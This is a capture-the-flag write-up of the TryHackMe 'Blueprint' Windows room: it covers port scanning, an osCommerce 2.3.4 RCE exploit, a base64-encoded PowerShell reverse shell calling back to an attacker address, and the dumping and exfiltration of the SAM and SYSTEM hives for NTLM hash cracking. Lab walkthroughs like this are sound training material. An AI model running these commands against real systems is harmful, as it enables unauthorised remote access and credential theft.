










# 📝 Writeup – Blueprint (TryHackMe)

---
## ENUMERATION
Starting with a quick scant to find open ports. Then a detailed scan on open ports. This way it doesnt waste time running scripts on closed ports.   
```bash
nmap -p- --min-rate 2000 -vv -T4 <IP>
```   
```bash
nmap -p 80,139,135,443,3306,8080 -sC -sV -vv -oN scan.nmap <IP>
```   
    
   
   
Port 80, 8080 look juicy so im starting with that. Well honestly i did checked 443 for *eternal blue* given the name was *blue*print but that wasnt the case so port 80 & 8080 is the way $_$.   

### PORT 80, 8080
   
Port 80 didnt have anything much you can check for urself.   
I poked around but found nothing interesting so i search up the only clue we have *oscommerce-2.3.4* and jackpot!!!.   
We have RCE if the install.php isnt removed for website.    
   
ofcourse we have it eazy win!!!  

---
## EXPLOITATION
**Exploit: [Oscommerce-2.3.4 RCE](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)**   

### WEBSHELL
After downloading the exploit and running it we get the webshell. The crazy part here is that we are already the *authority system* ie root. What a win!!!   
    

### REVERSE SHELL
Since this is windows machine we need powershell reverse shell. 
```bash
# Linux/macOS / WSL / Python installed
#Change System.Net.Sockets.TCPClient("LHOST",LPORT);

ps = r'''
$client = New-Object System.Net.Sockets.TCPClient("10.17.9.77",1234);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){
  $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);
  $sendback = (iex $data 2>&1 | Out-String );
  $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
  $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
  $stream.Write($sendbyte,0,$sendbyte.Length);
  $stream.Flush();
}
$client.Close();
'''
import base64
print(base64.b64encode(ps.encode('utf-16-le')).decode())
```    
This python script will convert the reverse shell code to base64 which we will pass to windows PS using,   
```bash
powershell -NoP -NonI -W Hidden -EncodedCommand <Base64>
```   
Make sure to connect to *netcat* to whatever port you set in reverse shell string. For me its PORT 1234 so `nc -nvlp 1234`    
    

To find root.txt u could go around look in *Administrator* folder or with the command   
```bash
Get-ChildItem -Path C:\ -Filter 'root.txt' -Recurse -File -ErrorAction SilentlyContinue | Select-Object -ExpandProperty FullName
```    
    

Now for the NTML hash since this is windows theres no */etc/passwd* so i had to do some research.   
NTML hash is taken care by SAM(Security Account Manager) and SYSTEM both of which are binary file. Theres also SECURITY but we dont need that guy rn.   
```bash 
save reg HKLM\SAM SAM
```
```bash
save reg HKLM\SYSTEM SYSTEM
```   
Also its good habit to do all this in **/Windows/Temp** folder.    
Youll see that SAM, SYSTEM are downloaded in folder our job is done now all we need is to host a server on machine to transfer SAM, SYSTEM to our kali machine. For that we would need a powershell code to host server (cause that useless machine has no python)    
```bash
# start in folder you want to serve
$listener=New-Object System.Net.HttpListener; $listener.Prefixes.Add("http://+:8000/"); $listener.Start(); while($true){$c=$listener.GetContext();$r=$c.Request;$p=$r.Url.LocalPath.TrimStart('/'); if($r.HttpMethod -eq 'PUT'){ $b=New-Object byte[] $r.ContentLength64; $r.InputStream.Read($b,0,$b.Length)>$null; [IO.File]::WriteAllBytes($p,$b); $c.Response.StatusCode=200; $c.Response.Close(); Write-Host "Saved $p"} else { $f=Join-Path (Get-Location) $p; if(Test-Path $f){ $data=[IO.File]::ReadAllBytes($f); $c.Response.ContentLength64=$data.Length; $c.Response.OutputStream.Write($data,0,$data.Length)} else {$c.Response.StatusCode=404}; $c.Response.Close()} }
```
save this as *server.ps1* and get it on the target machine by hosting python server ``python3 -m http.server 80`` and using certutil.exe from target machine   
```bash
certutil.exe -urlcache -f http://<ATTACK_IP>/server.ps1 server.ps1
```   
Now all we go to do is run this file   
```bash
powershell -NoProfile -ExecutionPolicy Bypass -File .\server.ps1
```   
Once server is up & running `wget http://<MACHINE_IP>:8000/SAM` & `wget http://<MACHINE_IP>:8000/SYSTEM`   
*sigh* Windows cmds as such a hassel!!!   

Now finally all we have to do is locate *secretsdump.py* on kali and run it    
```bash
/path/to/secretsdump.py -sam SAM -system SYSTEM LOCAL
```   
   

Now either u use *hashcat* or *crackstation.net* up to you. im going to be lazy & use the eazy resource   
    

---
